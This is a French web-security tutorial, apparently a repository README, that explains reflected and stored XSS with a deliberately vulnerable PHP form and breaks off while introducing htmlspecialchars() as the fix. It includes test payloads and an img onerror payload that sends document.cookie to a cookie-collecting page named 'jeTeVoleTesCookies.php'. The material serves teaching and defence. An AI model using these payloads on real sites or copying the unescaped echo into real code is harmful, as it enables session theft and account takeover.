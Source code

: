 # Se protéger contre les Failles Web

## 1. Failles XXS (Cross-site scripting)

- `XSS (Cross-site scripting)`  est une faille permettant l'injection de code HTML ou JavaScript dans des variables mal protégées. Il existe en fait deux types de XSS :
Le XSS réfléchi (non permanent) : on dit qu’elle est non permanente car elle n’est pas enregistrée dans un fichier ou une base de données.

- `Le XSS stocké (permanent)` : c’est une faille plus sérieuse car le script est sauvegardé dans un fichier ou une base de données. Il sera donc affiché à chaque ouverture du site. 

### Le XSS réfléchi

L’exemple le plus courant est celui du formulaire. Voici un formulaire basic sans mot de passe : Créez un dossier nommé faille par exemple dans lequel vous allez créer un fichier index.html et un fichier connexion.php

Imaginez que nous ayons un simple fichier index.html avec un formulaire : 

```html

    <form method="post" action="connexion.php">
        <input type="texte" name="pseudo" />
        <input type="submit" value="Se connecter" />
    </form>

```

Et un fichier connexion.php qui récupère la valeur de l'input

```php
echo "Bonjour " . $_POST['pseudo'] . "!"
```

- testez ce code et voyez ce qu'il se passe : `<strong>Coucou</strong>`
- Et avec celui-ci ? : `<script>alert('Il y a une faille XSS')</script>`

Vous pouvez egalement tester cela sur ce site : https://www.google.com/about/appsecurity/learning/xss/ 

### Le XSS stocké (permanant)

C'est une faille plus sérieuse car le script est sauvegardé dans un fichier ou une base de données.

Beaucoup de sites stockent les pseudo/ password de leurs utilisateurs dans des cookies. 
Utilisée correctement, cette faille peut par exemple permettre au pirate de récupérer les valeurs de ces fameux cookies. 
Voilà comment il va procéder. Il va tout d'abord insérer un code frauduleux sur une page de votre site où il peut écrire (livre d'or par exemple) ! Il va ensuite vous envoyer un message et vous inviter à aller voir cette fameuse page. Vous, sans vous méfier, cliquez et là … hop vous êtes redirigé et le pirate a récupéré votre cookie, et donc vos identifiants d'administrateur du site.

On peut distinguer plusieurs possibilités non exhaustives d’exploitation de cette faille :

- Une redirection de la page afin de nuire aux utilisateurs ou pour tenter une attaque de phishing.
- Voler des sessions ou des cookies. (Donc se faire passer pour un autre utilisateur pour exécuter des actions)
- Rendre le site inaccessible en utilisant des alertes en boucle ou tout autre moyen nuisible.

### Exemple de ce que le méchant Hacker pourrait faire 

- testez sur le site : `<img src="petitChat.jpg" onerror="alert(document.cookie);">`

- Vous pouvez egalement le tester en localhost. Vous trouverez dans ce repository un dossier `failleHacker` qui contient un fichier `jeTeVoleTesCookies.php` . 
- Ajouter ce code dans index.html : `<img src="petitChat.jpg" onerror="window.location='../failleHacker/jeTeVoleTesCookies.php?cookie='+document.cookie;" hidden>` (Normalement le hacker mettrai cela dans l'input. Mais chrome se protège un minimum et bloque cette fonctionnalité. Raison pour laquelle nous allons mettre le code dans l'html )
- Décommentez les lignes suivantes pour voir ce que cela donne...

Voici juste un petit aperçu si je décommente `phpinfo();`

Voici va se passer. Ce script redirige l’utilisateur si il y a une erreur. Or l’image petitChat.jpg n’existe pas. Le pirate a bien calculé son coup, il voulait qu’il y ai une erreur.
Ainsi, onerror (en cas d’erreur) vous êtes alors redirigé vers la page jeTeVoleTesCookies.php et tout ça en communiquant le contenu de votre cookie dans l’URL. Sur la page jeTeVoleTesCookies.php, le pirate n'aura qu'à récupérer la variable cookie grâce à un GET et la stocker dans un fichier. À partir de ce moment-là il détient vos informations personnelles. Cela peut s'avérer très embêtant, surtout si vous êtes l'administrateur du site web.

## Comment s'en protéger ?

Il faut absolument utiliser les fonctions php `htmlspecialchars()` qui filtre les ‘<‘ et ‘>’ ou `htmlentities()` qui filtre toutes les entités html.

htmlspacialchars() . Cette fonction permet de filtrer les symboles du type  <, & ou encore ", en les remplaçant par leur équivalent en HTML. Par exemple :

- Le symbole & devient &amp;
- Le symbole " devient &quot;
- Le symbole ' devient &#39;

Modifions notre fichier connexion.php et 



